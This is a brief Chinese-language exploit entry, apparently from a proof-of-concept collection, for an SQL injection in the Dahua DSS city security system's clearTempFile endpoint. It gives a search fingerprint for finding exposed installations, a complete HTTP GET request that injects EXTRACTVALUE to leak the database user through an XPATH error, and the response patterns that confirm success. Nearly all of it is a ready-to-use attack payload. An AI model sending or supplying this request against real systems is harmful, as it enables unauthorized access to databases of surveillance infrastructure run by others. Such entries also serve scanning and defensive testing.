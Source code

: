 ﻿# 大华DSS城市安防系统clearTempFile SQL注入漏洞

> 更新时间：2024-04-29

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：body="/portal/include/script/dahuaDefined/headCommon.js?type=index"&&title="DSS"

> 验证脚本：HTTP

```
GET /portal/attachment_clearTempFile.action?bean.RecId=1%27)%20AND%20EXTRACTVALUE(8841,CONCAT(0x7e,user(),0x7e))%20AND%20(%27mYhO%27=%27mYhO&bean.TabName=1 HTTP/1.1
Connection: close
Accept-Encoding: gzip
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?XPATH)(?=.*?sql).*?$

> 上传文件定位：

> 验证文件来源：大华DSS城市安防系统clearTempFile SQL注入漏洞.poc

